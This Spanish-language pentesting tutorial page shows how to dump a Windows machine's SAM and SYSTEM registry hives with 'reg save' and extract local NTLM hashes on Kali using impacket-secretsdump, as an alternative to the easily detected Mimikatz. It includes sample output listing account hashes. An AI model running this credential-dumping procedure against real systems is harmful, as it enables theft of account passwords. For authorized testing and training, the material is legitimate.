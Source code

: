 ```yaml
---
icon: inbox-in
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Volcado de Isass y SAM en Linux

La herramienta `Mimikatz` es detectado por casi todos los sistemas `Windows` aunque mas adelante veremos herramientas de evasion para esto, pero si lo queremos hacer de otra forma con una herramienta de `linux` podremos hacerlo de la siguiente forma:

Primero tendremos que extraer desde `Windows` la rama donde se encuentra la `SAM` creando un archivo, el cual luego nos pasaremos al `kali`.

```powershell
cd .\Desktop
reg save hklm\sam sam.save
```

Info:

```
La operación se completó correctamente.
```

Esto nos dara un archivo llamado `sam.save` el cual nos tendremos que pasar al `kali`.

Pero a parte tambien volcaremos el `system`:

```powershell
reg save hklm\system system.save
```

Ahora nos copiaremos los 2 ficheros y los pasamos a nuestro `kali`.

Dentro de `kali` vamos a volcar la `SAM` desde el fichero que generamos `sam.save` de la siguiente forma:

```shell
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Cleaning up...
```

